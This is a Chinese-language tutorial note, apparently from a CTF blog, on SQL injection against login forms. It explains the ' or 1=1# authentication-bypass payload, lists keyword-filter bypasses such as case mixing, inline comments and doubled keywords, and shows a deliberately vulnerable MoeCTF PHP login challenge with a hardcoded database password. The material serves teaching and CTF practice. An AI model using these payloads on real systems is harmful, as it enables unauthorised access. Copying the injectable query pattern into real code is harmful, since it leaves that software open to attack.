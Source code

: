 # 有关登录型sql注入的补充

<br>

## 登录型sql注入特征

形如下列语句即为登录型

````
$sql = "SELECT * FROM admin WHERE email='$email' AND pwd='$pwd'";

````

<br>

## 注入方法以及原理

<br>

万能密码:

````
' or 1=1#
````

<br>

在用户名输入框中输入:’ or 1=1#,密码随便输入，这时候的合成后的SQL查询语句为：

````
select * from users where username='' or 1=1#' and password=md5('')
````

语义分析：“#”在mysql中是注释符，这样井号后面的内容将被mysql视为注释内容，这样就不会去执行了，换句话说，以下的两句sql语句等价：

````
select * from users where username='' or 1=1#' and password=md5('')
````
　等价于
````
select * from users where username='' or 1=1
````
SQL注入采用的' OR 1=1 # 是什么意思呢？

最后一个#号有什么意义呢？

'#'可以注释掉后面的一行SQL代码

相当于去掉了一个where条件

MySQL 注释, 过滤掉后面的SQL语句，使其不起作用 ,因为1=1永远是都是成立的，即where子句总是为真，将该sql进一步简化之后，等价于如下select语句：
````
select * from users 
````
没错，该sql语句的作用是检索users表中的所有字段

<br>

## 绕过

<br>

* 大小写变形，Or，OR，oR，And，ANd，aND等-代码中大小写不敏感都剔除

* 在这两个敏感词中添加注释，例如：a/**/nd 双写绕过oorr

* 利用符号代替--and --&&          --or--||  等


<br>

## 例题

````
$email = $_POST['email'];
    if(!preg_match("/[a-zA-Z0-9]+@[a-zA-Z0-9]+\\.[a-zA-Z0-9]+/", $email)||preg_match("/or/i", $email)){
        echo json_encode(array('status' => 0,'info' => '不存在邮箱为： '.$email.' 的管理员账号！'));
        unset($_SESSION['captcha_code']);
        exit;
    }

    $pwd = $_POST['pwd'];
    $pwd = md5($pwd);
    $conn = mysqli_connect("localhost","root","123456","xdsec",3306);


    $sql = "SELECT * FROM admin WHERE email='$email' AND pwd='$pwd'";
    $result = mysqli_query($conn,$sql);
    $row = mysqli_fetch_array($result);

    if($row){
        $_SESSION['admin_id'] = $row['id'];
        $_SESSION['admin_email'] = $row['email'];
        echo json_encode(array('status' => 1,'info' => '登陆成功，moectf{testflag}'));
    } else{
        echo json_encode(array('status' => 0,'info' => '管理员邮箱或密码错误'));
        unset($_SESSION['captcha_code']);
    }
}


````

<br>

解法如图:


<img src="https://54huarui.github.io/blogs/sqllogin/0.png" width="880" height="480">